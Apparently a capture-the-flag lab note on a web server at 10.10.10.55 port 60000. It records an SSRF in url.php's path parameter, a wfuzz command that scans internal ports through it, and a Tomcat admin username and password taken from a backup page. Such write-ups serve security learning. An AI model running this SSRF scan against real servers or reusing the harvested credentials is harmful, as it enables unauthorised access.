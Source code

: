 # Web Server on 60000

![[Pasted image 20211110064121.png]]


Can make request on local host
![[Pasted image 20211110064235.png]]

```bash
$ wfuzz -c -z range,1-65535 --hl 2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
```



port 320
![[Pasted image 20211110065630.png]]


port 888
![[Pasted image 20211110065525.png]]

http://localhost:888/?doc=backup 
Creds Found: admin:3@g01PdhB!  (Tomcat)
![[Pasted image 20211110065949.png]]